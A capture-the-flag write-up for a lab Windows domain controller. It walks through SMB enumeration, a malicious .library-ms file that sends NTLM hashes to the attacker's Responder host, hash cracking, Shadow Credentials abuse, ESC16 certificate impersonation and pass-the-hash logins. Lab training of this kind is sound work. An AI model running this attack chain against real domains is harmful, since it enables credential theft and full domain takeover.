


---
tags:
  - Windows
  - SMB
  - CVE
  - DACL Abuse
  - ADCS
---

... is an easy HTB machine where `breached` credentials can be used to enumerate the `smb` shares. A notice to the system administrator reveals that multiple `CVEs` apply to this domain. One allows you to steal a `NTLM` hash of a user by viewing a malicious file in `File Explorer`. That user can abuse `LDAP` privileges to gain access to a `winrm`-capable account. The privilege escalation works via `ESC16`, where a system wide mis-configuration allows for the impersonation of the `Administrator` account.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this (without `-sC`, as it is quite verbose):
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `nmap` scan indicates, the domain name `fluffy.htb` and `dc01.fluffy.htb` (from `-sC` scan) are in use. That is why i edit my `/etc/hosts` file as follows for local `DNS` resolution:
```bash
echo "$IP fluffy.htb dc01.fluffy.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As this machine is an `assumed breach` machine, i already have valid credentials so i can use them for this scan:
```bash
nxc smb fluffy.htb -u 'fluffy.htb\j.fleischman' -p 'J0elTHEM4n1990!' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "j.fleischman" here, but append "fluffy.htb\", as LDAP is in place!
# -p: the password to use. "J0elTHEM4n1990!" here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
IT              READ,WRITE      
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share
```
The `IT` share is not a standard `smb` share and i have `READ,WRITE` permissions on it, which is why i decided to investigate it's content using `smbclient` as follows:
```bash
smbclient -U 'fluffy.htb\j.fleischman' --password='J0elTHEM4n1990!' "//fluffy.htb/IT"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here 'fluffy.htb\j.fleischman' is a user on the LDAP (need to specify the domain)
# --password: specify joel's password
```

Within that share, i find and download the following files with `get`:

- `Everything-1.4.1.1026.x64.zip`: `.exe` and `.lng` file for the `Everything` binary from `voidtools`. Is typically used to index and find files and folders on windows machines. This version has some `CVE's` which might allow for arbitrary file reads via `path traversal`, or privilege escalation via `dll sideloading`.

- `KeePass-2.58.zip`: Contains all required files to install and run `KeePass` version `2.58`. It is a local password manager software. This version also has some `CVE's` which might allow reconstruction of clear-text passwords, or the dumping of all its contents if the `KeePass.config.xml` is write-able.

- `Upgrade_Notice.pdf`: An information file for the `IT-Department` of `fluffy.htb`. They should update the system, as it is vulnerable to the following publicly disclosed `CVE's` (The severity of the `CVE` was assigned by the `PDF`, it may not be correct!):
1. `CVE-2025-24996`: A `critical` severity `CVE` in the `NTLM` authentication protocol, allowing unauthorized remote attackers to intercept `NTLM` hashes via path traversal and spoofing.
2. `CVE-2025-24071`: A `critical` severity `CVE` in the `Windows File Explorer`, allowing unauthorized attackers to trick systems into sending `NTLM` hashes via `.library-ms` files in `ZIP` files.
3. `CVE-2025-46785`: A `high` severity `CVE` in certain `Zoom Workplace` apps, allowing locally authenticated users to conduct a `Denial of Service` attack via a `Buffer Overflow`.
4. `CVE-2025-29968`: A `high` severity `CVE` in the `Active Directory Certificate Services`, allowing authorized network attackers to trigger a `Denial Of Service` via `improper input validation`.
5. `CVE-2025-21193`: A `medium` severity `CVE` in the `Active Directory Federation Services`, allowing impersonation of legitimate users without valid credentials due to `improper input validation`.
6. `CVE-2025-3445`: A `low` severity `Zip-Slip` attack in the `Go` Library `mholt/archiver`, allowing the overwriting of sensitive files via directory traversal in file-names. 

### Initial Exploitation
With all of these `CVE`s it is now required to filter out the ones which i can actually use. As the exploitation of the `Everything` and `KeePass` binaries only would affect my local system, i do not take them into consideration now. The `CVE`'s in the `Upgrade_Notice` include ones that simply lead to `Denial of Service`, which is not my goal. This leaves me with the following `CVEs` which i can possibly use:

- `CVE-2025-24996`: Possibility of receiving a `NTLM hash` via `NTLM`.
- `CVE-2025-24071`: Possibility of receiving a `NTLM hash` via `File Explorer`.
- `CVE-2025-21193`: Possibility of user impersonation via `AD FS`.

After searching for `PoC's` to these `CVE's` i was only able to find one for the `CVE-2025-24071` (in `File Explorer`) [here](https://www.exploit-db.com/exploits/52310). At this point i remembered that the `IT` share on the `smb` service was write-able, and `smb` shares are typically viewed via `File Viewer` in windows! If someone were to view that share using `File Explorer`, i can receive their hash and possibly crack it to receive their password!

This exploit works by specifying a `UNC` (`Universal Naming Convention`) path in a `.library-ms` file which leads to a `smb` share which i control. The person viewing this in `File Explorer` then initiates a `smb` connection to my share to resolve that reference. My `smb` server is `responder`, which prompts the target to send it's `NTLM hash` using the `challenge-response` exchange. The following `evil.library-ms` file will be used:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\<my-IP>\test</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```
I can then create the `zip` archive using `zip evil.zip evil.library-ms`. Before uploading the `evil.zip`, i start `responder` on the `tun0` interface (`HTB VPN`):
```bash
sudo responder -I tun0
```
Then i connect to `smb` again using the `smbclient` utility, and upload the `zip` using `put evil.zip`. After waiting for a while, i receive the `NTLMv2 hash` of `p.agila`! I save it into a `hash.txt` file and i can crack it using `hashcat` without providing a hash mode, as it will be automatically identified:
```bash
hashcat ./hash.txt ./rockyou.txt
```
This gives me the clear-text password `prometheusx-303`!

Sadly, the credentials `p.agila:prometheusx-303` cannot be used to gain `winrm` access, so the `Initial Exploitation` phase is not quite over. I conduct further reconnaissance using `p.agila`'s account on the shares she can view:
```bash
nxc smb fluffy.htb -u 'fluffy.htb\p.agila' -p 'prometheusx-303' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "p.agila" here, but append "fluffy.htb\", as LDAP is in place!
# -p: the password to use. "prometheusx-303" here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output indicates that `p.agila` is not more privileged as `j.fleischmann`, as she has access to the same shares as him. This scan using the `--users` flag instead did not reveal any info either.

My next idea was to start a `bloodhound` scan (due to the presence of `LDAP` on the server) to find out if `p.agila` has any interesting permissions. As i cannot execute code on the target yet, i cannot use the preferred `bloodhound-ingestor` `SharpHound.exe`, which is why i decided to use `netexec`'s built-in `bloodhound-ingestor` as follows:
```bash
nxc ldap dc01.fluffy.htb -u 'fluffy.htb\p.agila' -p 'prometheusx-303' --bloodhound --collection All --dns-server $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# dc01.fluffy.htb: use the dc01 as the server, not fluffy.htb, as it has a stale A record leading to the wrong IP
# -u: the username to use. "p.agila" here, but append "fluffy.htb\", as LDAP is in place!
# -p: the password to use. "prometheusx-303" here
# --bloodhound: perform multiple `LDAP` scans to save in a file which can be investigated with bloodhound
# --collection All: use all collection methods
# --dns-server: specify the server which resolves DNS
```

I start `bloodhound` with `bloodhound-start`, and upload the resulting `...bloodhound.zip` file which was created from the scan before, to the `File Ingest` tab if the `bloodhound` GUI.

After waiting a while for the `Ingest` to complete, i head over to the `Explore` section and search for `user:p.agila` in the search tab, and click on the `Outbound Object Control` to find out what permissions `p.agila` might have over other objects. 

Apparently, `judith` is a member of the `SERVICE ACCOUNT MANAGERS` group. That group has `GenericAll` permissions over the `SERVICE ACCOUNTS`-group! This allows me to directly modify the membership of the group so that `p.agila` is part of it.

Looking at the `Outbound Object Control` of the `SERVICE ACCOUNTS` group, it is visible that it has `GenericWrite` permissions over the three service accounts `LDAP_SVC`, `CA_SVC` and `WINRM_SVC`. The most interesting target here is the `WINRM_SVC`, as it is a member of the `REMOTE MANAGEMENT USERS` group, which are allowed to use `winrm`! Using the `GenericWrite` permission i can do the following attacks on `WINRM_SVC`:

- `Targeted Kerberoast`: Allows me to get the `kerberos` hash of the user which i can obtain to crack. As service accounts typically have very strong passwords, it is not usually crackable.
- `Shadow Credentials attack`: Edits the `msDS-KeyCredentialLink` attribute, so that i can use my own cryptographic key to authenticate as that service using `Windows Hello`-like features.

This is the whole attack chain from `P.AGILA` to `REMOTE MANAGEMENT USERS`:


These are the two steps required to gain `winrm` access:

- Add `p.agila` to the `SERVICE ACCOUNTS` group. As `p.agila` has full access to this group (`GenericAll`), it is not required to change her permissions, and she can instantly be added using `samba`'s `net` tool:

```bash
net rpc group addmem "SERVICE ACCOUNTS" p.agila -U fluffy.htb/p.agila --password='prometheusx-303' -S fluffy.htb
```

- Abuse `GenericWrite` over the user `WINRM_SVC` to get his `NTHash` via an `Shadow Credentials Attack`. Usually this attack is performed using the combination of the tools `pywhisker.py` and `gettgtpkinit.py`, but i simply use `certipy` to automate this process. 

Before using it, i need to execute these commands to synchronize my system time to the target, so that i do not get `Kerberos` errors:

```bash
sudo timedatectl set-ntp off
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# prevents the OS from automatically correcting the time
```

```bash
sudo rdate -n $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# synchronizes time with the target
```

Then i can use `certipy` to fetch the `NTHash` of `winrm_svc`!
```bash
certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account 'winrm_svc'
```
The resulting `NT Hash` can be passed in the `evil-winrm` login to get a `PowerShell` as `win_rm`, eliminating the need for `Lateral Movement`:
```bash
evil-winrm -i fluffy.htb -u "fluffy.htb\winrm_svc" -H '33bd09dcd697600edf6b3a7af4875767'
```

### Privilege Escalation
With windows machines, i always enumerate the current user's privileges using `whoami /all`, but nothing out of the ordinary stands out. I also try to read the `powershell history` file using this command:
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
But the history file was not there for this user.

Due to the presence of the `CA_SVC` (`Certificate Authority Service-`) account, i had a reason to believe that certificate services were being used on this server. To see if there are any mis-configured ones, i must enumerate them using `certipy`. To do so , i require the account of `CA_SVC`, as he is part of the `CERT PUBLISHERS` group which is allowed to view the certificate templates. As seen previously, the `SERVICE ACCOUNTS` group has `GenericWrite` permissions over this account, which is why i can perform a `Shadow Credentials attack` on the `ca_svc` account. I could do this again using the account `p.agila`, but instead I've used the hash of the `winrm_svc`. Executing this command gives me the `NT Hash` file of `ca_svc`:
```bash
certipy shadow auto -u winrm_svc@fluffy.htb -hashes '33bd09dcd697600edf6b3a7af4875767' -account 'ca_svc'
```
This gives me the `NT_HASH` of `ca_svc`: `ca0f4f9e9eb8a092addf53bb03fc98c8`!

I can now use that to enumerate the vulnerabilities of the certificate templates:
```bash
certipy find -u ca_svc@fluffy.htb -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip $IP -vulnerable
```
Reading the scan-results with `cat ...Certipy.json | jq`, informs me that the certificate template is vulnerable to `ESC16`. `ESC16` is very similar to `ESC9` (described in write-up `Certified`), with the only difference being that `ESC16` is configured globally, and not on a single certificate. Using the same weak certificate mapping, it is possible to obtain a certificate with an identity matching another account (e.g. `Administrator`).

To perform this attack, i need one account (here, `winrm_svc`) which has any write permissions over another account (here, `ca_svc`). I can then edit his `UPN` (`User Principal Name`) to be `Administrator` instead of `ca_svc` like this:
```bash
certipy account update -u winrm_svc@fluffy.htb -hashes '33bd09dcd697600edf6b3a7af4875767' -user ca_svc -upn Administrator
```

Now, after having changed the `UPN` of `ca_svc`, i can request a certificate as `administrator`, as i match his `UPN` (the `CA` name was found in the `certipy` scan). The used template is `User`, as no mis-configured certificate templates are present. We can use any default one:
```bash
certipy req -u ca_svc@fluffy.htb -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -ca fluffy-DC01-CA -template User -target dc01.fluffy.htb -dc-ip $IP
```
This gives me the `administrator.pfx`!

To avoid authentication issues when trying to connect as `administrator`, i revert `ca_operator`'s `UPN` to its previous value:
```bash
certipy account update -u winrm_svc@fluffy.htb -hashes '33bd09dcd697600edf6b3a7af4875767' -user ca_svc -upn ca_svc@fluffy.htb
```

And as the last step, i can get `Administrators` `NT-Hash` using the following command:
```bash
certipy auth -pfx ./administrator.pfx -domain fluffy.htb -dc-ip $IP
```
I can use the right part of the `NTLM` hash to authenticate via `winrm`:
```bash
evil-winrm -i fluffy.htb -u "fluffy.htb\administrator" -H 8da83a3fa618b6e3a00e93f676c92a6e
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `Administrator` worked as follows:

